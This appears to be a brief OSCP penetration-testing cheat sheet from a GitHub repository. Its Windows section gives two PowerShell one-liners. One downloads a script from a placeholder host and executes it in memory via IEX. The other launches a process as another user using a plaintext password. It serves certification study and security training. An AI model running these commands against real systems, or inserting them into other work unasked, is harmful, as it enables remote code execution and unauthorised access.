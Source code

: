 # oscp-cheatsheet

## Windows

- Download string that loads a ps script functions into memory
  - IEX(New-Object Net.Webclient).downloadString("http://0.0.0.0/script.ps1")
- Run cmd as other user
  - $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred
